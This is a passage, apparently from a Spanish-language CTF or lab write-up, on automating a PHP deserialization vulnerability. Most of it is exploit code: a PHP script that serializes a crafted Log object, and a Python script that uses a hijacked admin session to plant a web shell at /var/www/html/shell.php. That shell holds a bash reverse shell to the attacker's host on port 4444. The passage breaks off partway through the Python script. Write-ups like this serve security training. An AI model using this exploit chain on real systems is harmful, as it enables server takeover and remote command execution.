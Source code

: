 ![serial](/assets/imgs/tudo/serial.png)

----

### Automatizando la vulnerabilidad

Script `test.php` para serializar objeto php.

```
<?php
    class Log {
        public function __construct($f, $m) {
            $this->f = $f;
            $this->m = $m;
        }
    }
    $obj = new Log($argv[1],base64_decode($argv[2]));
    echo serialize($obj);

?>
```

Script que automatiza la intrusión

```
#!/usr/bin/python3

import requests, sys, subprocess, base64, time

if len(sys.argv) != 4:
	print("usage: %s TARGET HOST ADMIN_PHPSESSID" % sys.argv[0])
	sys.exit(-1)

target = sys.argv[1]
host   = sys.argv[2]
sessid = sys.argv[3]
burp = {"http":"http://127.0.0.1:8080"}

lport = 4444

f = "/var/www/html/shell.php"
c = "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'\"); ?>" % (host,lport)
c = base64.urlsafe_b64encode(c.encode("UTF-8")).decode("UTF-8")

proc = subprocess.Popen("php test.php '%s' '%s'"%(f,c),shell=True,stdout=subprocess.PIPE)
```